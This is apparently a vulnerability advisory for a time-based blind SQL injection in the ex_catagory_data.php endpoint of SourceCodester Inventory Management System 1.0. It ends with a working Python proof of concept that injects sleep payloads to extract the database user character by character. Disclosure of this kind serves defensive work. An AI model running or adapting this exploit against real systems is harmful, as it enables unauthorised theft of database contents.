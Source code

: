 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in ex_catagory_data.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in ex_catagory_data.php. Affected is file app/ajax/ex_catagory_data.php, the manipulation of the argument `columns[1][data]` leads to SQL injection. Remote attackers can exploit time-based blind injection to retrieve all data from the database.

## Vulnerability Code
- app/ajax/ex_catagory_data.php
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/0fa49437-d6b8-44e9-ad7a-70dcf4771131)



## POC
```python
import time 
import requests
import string 

dict = string.digits + string.ascii_lowercase + string.punctuation
res = ""
dealy = 2

for i in range(1,50):
    for j in dict:
        start = time.time()
        payload = 'id^if(substr(user(),%s,1)="%s",sleep(2),1);' % (i,j)
        data = {
            "order[0][column]":"1",
            "columns[1][data]": payload
        }
        req = requests.post("http://localhost:81/app/ajax/ex_catagory_data.php", data=data)
        end = time.time() - start
        if end > dealy:
            res += j
            print('[*] Found:' + res)
            break
```
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/f2cac3f9-faf6-4e60-b1ce-71031f1dd626)
